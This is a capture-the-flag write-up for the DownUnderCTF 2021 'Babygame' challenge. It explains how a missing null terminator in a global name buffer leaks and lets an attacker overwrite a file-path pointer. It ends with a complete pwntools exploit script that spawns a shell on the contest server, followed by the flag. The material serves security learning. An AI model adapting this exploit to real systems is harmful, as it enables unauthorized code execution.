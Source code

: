 # Babygame

![](/2021/DownUnderCTF2021/Babygame/Images/1.png)

Check the ELF

![](/2021/DownUnderCTF2021/Babygame/Images/2.png)

Reverse with IDA

![](/2021/DownUnderCTF2021/Babygame/Images/3.png)

The program first asks us to enter the NAME array, and then calls an infinite loop. Read input, `1` `2` `1337` and call `set_username()`, `print_username()`, `game()` corresponding.

Look `at game()` function

![](/2021/DownUnderCTF2021/Babygame/Images/4.png)

The game function call fopen() with filename is the string RANDBUF point to. And read 4 byte. We need to enter correct 4 byte to get a shell.

We cannot bruteforce because RANDBUF is point to “/dev/urandom” string. So the program with open the /dev/urandom file, so that the value will is different each run.

Look at function `set_username()`

![](/2021/DownUnderCTF2021/Babygame/Images/5.png)

Function call fread with the strlen(NAME)

Fucntion `print_username()`

![](/2021/DownUnderCTF2021/Babygame/Images/6.png)

Just puts the Name

## So what is the bug?

![](/2021/DownUnderCTF2021/Babygame/Images/7.png)

The NAME and RANDBUF variable are global variable, and it located on bss setion. NAME array is 32 characters and the pointer randbuf right after it. So look again to the code. The fread function at main will allow us to input maximum 32 character, and it NOT push the null byte in the end. So it make the randbuf pointer leakable. And after that, the print_username will give us the value of randbuf, with a pointer to string ‘/dev/urandom’ in ELF file. And also the Edit username allow us to change that pointer (because strlen(NAME) will stop with null byte, so the size we fread can be 32 + size(RANDBUF) ).

![](/2021/DownUnderCTF2021/Babygame/Images/8.png)

The bss if we enter full 32 charracter to NAME, it will concat the RANDBUF value with it. You can see the name vallue point to “/dev/urandom” string. After it, if you puts(NAME) the puts will put until read the NULL charracter (\x00), and the first NULL charracter is 2 highest byte in RANDBUF. So you can leak the value of RANDBUF and also change it because the strlen() will have same implementation with puts.

## Oke so what we have and what we can do?

  - We can leak the value of RANDBUF, with point to the string “/dev/urandom” in data section of ELF -> We can leak PIE base of program.

  - We can also overwrite it due the edit username function. To change it to point back to the address of NAME array, can do this because we have PIE leak before, we can make the game function open what file we want to open, not /dev/urandom.

  - Our target is to input exactly 4 byte when we call game() function, we cannot do that becasuse ‘/dev/urandom’ is random. We need to point it to another file that we can know or predict the first 4 byte, or some static file we can bruteforce.

I decide to point to the pwn file, which is the challenge’s ELF file running on server. I know it has the name “pwn” due to 3 chall I solved before.

![](/2021/DownUnderCTF2021/Babygame/Images/9.png)

4 first byte of babygame is 7f 45 4c  46, so value we need input is 0x464c457f

## Finally exploit

  - First, we push 32 charracter to NAME when fread first call in main
  
  - Seccond, we use print_username to leak value of RANDBUF, calculate PIE base and address of NAME array

  - Third, we use edit_username to puts “pwn” + “\x00” * 29 + p64(NAME address) and overwrite the RANDBUF to NAME

  - Fourth, we call game and input 0x464c457f to get a shell

File [solve.py](/2021/DownUnderCTF2021/Babygame/solve.py)

```python
from pwn import *
s = remote('pwn-2021.duc.tf', 31907)
#s = process('./babygame')
#raw_input('DEBUG')
s.sendlineafter(b'name?\n', b'A' * 31)
s.sendlineafter(b'> ', b'2')
print(s.recvline())
dev_urandom_leak = int.from_bytes(s.recvline().strip(), byteorder = 'little', signed = False)
name = dev_urandom_leak - 0x2024 + 0x40A0
print(hex(dev_urandom_leak))
print(hex(name))
s.sendlineafter(b'> ', b'1')
print(p64(name)[:-2])
s.sendafter(b'to?\n', b'pwn' + p32(0) + b'A' * 25 + p64(name)[:-2])
#s.sendafter(b'to?\n', b'babygame' + p32(0) + b'A' * 20 + p64(dev_stdin)[:-2])
s.sendlineafter(b'> ', b'1337')
s.sendlineafter(b'guess: ', b'1179403647')
s.interactive()
```

![](/2021/DownUnderCTF2021/Babygame/Images/10.png)

`flag: DUCTF{whats_in_a_name?_5aacfc58}`

